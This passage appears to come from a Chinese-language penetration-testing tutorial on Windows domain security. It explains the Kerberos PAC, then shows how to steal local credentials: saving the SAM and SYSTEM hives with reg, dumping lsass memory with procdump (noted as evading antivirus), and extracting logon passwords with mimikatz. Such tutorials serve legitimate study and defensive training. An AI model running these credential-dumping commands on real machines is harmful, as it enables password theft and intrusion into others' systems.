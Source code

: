 PAC 可以理解为一串校验信息为了防止被伪造和串改原则上是存放在 TGT 里并且 TGT 由 KDC hash 加密。同时尾部会有两个数字签名分别由 KDC 密码和 server 密码加密防止数字签名内容被篡改。

![](assets/1710388326-43d424d042d2f83f3dd737847ed862f1.png)

同时 PAC 指定了固定的 User SID 和 Groups ID 还有其他一些时间等信息 Server 的程序收到 ST 之后解密得到 PAC 会将 PAC 的数字签名发送给 KDCKDC 再进行校验然后将结果已 RPC 返回码的形式返回给 Server。

## 三、获取用户凭证

这里说的用户凭证获取，一般是指 ntlm hash 或者可以直接利用的明文密码。其他加密方式的用户凭证不在本次讨论范围内。

### 1、本地用户凭证

**a、通过 SAM 文件破解**

```bash
reg save hklm\sam C:\sam.hive
reg save hklm\system C:\system.hive
```

**b、获取 lsass 内存**

**1.procdump**

procdump 是微软提供的一款监测 cpu 峰值协助管理员检测异常数据的软件是合法可信任软件因此杀软不会拦截。

利用该软件可读取内存的特性可以将计算机用户登录内存抓取出来。具体命令如下

```bash
以管理员身份启动 cmd
procdump64.exe -accepteula -ma lsass.exe 存放路径\文件名
```

将生成的文件传出后使用 mimikatz 破解

```bash
mimikatz # sekurlsa::minidump 文件名
mimikatz # sekurlsa::logonPasswords full
```

**2\. 创建转储文件**

除了使用工具软件获得 lsass.exe 的内存外还可以直接在任务管理器中创建 lsass.exe 的转储文件效果和 procdump 生成的效果一样。
